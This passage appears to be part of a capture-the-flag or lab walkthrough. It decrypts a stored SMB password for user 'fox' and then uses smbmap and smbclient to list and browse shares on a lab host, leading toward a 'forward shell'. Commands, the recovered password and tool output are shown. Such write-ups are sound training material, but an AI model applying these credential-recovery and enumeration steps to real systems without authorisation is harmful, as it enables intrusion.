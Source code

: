 We can decrypt each password and test it with both `ssh` and SMB. I extracted each of the passowrds like this:

```
$ echo '2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10' | tr -d ',' | tr -d '\\' | tr -d '\n' | tr -d ' '
2c0fff76ca03d7c21c0d3c8b55edd8de37f89720ae6ed382d0ad2e70f97effea0b0c1cd901cbd1ad90fc601b9e40fc9c4baf65eec51962eb4edacc7c30a8a66b0cbd9f362ac0cad1598904aecb8b9610
```

Then, decrypted them using the script:

```
$ python3 decrypt.py        
00000000: 69 00 70 00 61 00 72 00  61 00 6C 00 69 00 70 00  i.p.a.r.a.l.i.p.
00000010: 6F 00 6D 00 65 00 6E 00  69 00 64 00 65 00 6C 00  o.m.e.n.i.d.e.l.
00000020: 6C 00 61 00 62 00 61 00  74 00 72 00 61 00 63 00  l.a.b.a.t.r.a.c.
00000030: 6F 00 6D 00 69 00 6F 00  6D 00 61 00 63 00 68 00  o.m.i.o.m.a.c.h.
00000040: 69 00 61 00 00 00 00 00  00 00 00 00 00 00 00 00  i.a.............
None
iparalipomenidellabatracomiomachia
```

The password above is for the user `fox`, and using those credentials grants us access to another SMB Share.

```
$ smbmap -H 192.168.157.157 -u fox -p iparalipomenidellabatracomiomachia
[+] IP: 192.168.157.157:445     Name: 192.168.157.157                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        utils                                                   READ ONLY       Utilities
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
        fox                                                     READ, WRITE     Home Directories
```

### New Shares --> Forward Shell

This `print$` share has some interesting stuff:

```
$ smbclient -U fox //192.168.157.157/print$                             
Password for [WORKGROUP\fox]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan  9 02:03:48 2021
  ..                                  D        0  Tue Jul  4 04:18:20 2023
  W32X86                              D        0  Sat Jan  9 02:03:48 2021
  IA64                                D        0  Mon Sep  2 21:39:42 2019
  x64                                 D        0  Sat Jan  9 02:03:48 2021
  COLOR                               D        0  Mon Sep  2 21:39:42 2019
  W32PPC                              D        0  Mon Sep  2 21:39:42 2019
  WIN40                               D        0  Mon Sep  2 21:39:42 2019
  W32MIPS                             D        0  Mon Sep  2 21:39:42 2019
  W32ALPHA                            D        0  Mon Sep  2 21:39:42 2019
  color                               D        0  Sat Jan  9 02:03:48 2021
```
